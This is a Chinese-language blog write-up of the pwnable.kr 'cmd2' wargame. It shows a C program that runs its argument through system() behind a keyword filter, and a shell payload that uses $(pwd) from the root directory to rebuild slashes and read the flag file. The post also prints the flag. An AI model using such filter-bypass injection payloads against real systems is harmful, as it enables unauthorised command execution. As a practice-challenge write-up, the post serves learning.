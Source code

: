 ```yaml
---
title: 'pwnable.kr #cmd2'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-07-08 05:06:12
categories:
    - Writeups
	  - pwnable.kr
thumbnailImage: pwnablekr.jpg
keywords:
    - pwnable.kr
    - Toddler's Bottle
    - cmd2
tags:
    - Writeups
---
```

cmd1 的進階題！
<!-- more -->

原始碼：
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

可以看到相較於cmd1，條件限制更嚴苛了，修改環境變數或是使用絕對路徑的方式都會被過濾。

其實還有一個方法可以使用絕對路徑但斜線又不會被過濾到，利用Linux指令`pwd`顯示當前路徑的方法，只要先進到根目錄，那麼`pwd`就會是`/`，便可以構造出像這樣的字串：
```sh
cmd2@ubuntu:~$ cd /
cmd2@ubuntu:/$ ./home/cmd2/cmd2 '""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*""'
""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*""
FuN_w1th_5h3ll_v4riabl3s_haha
```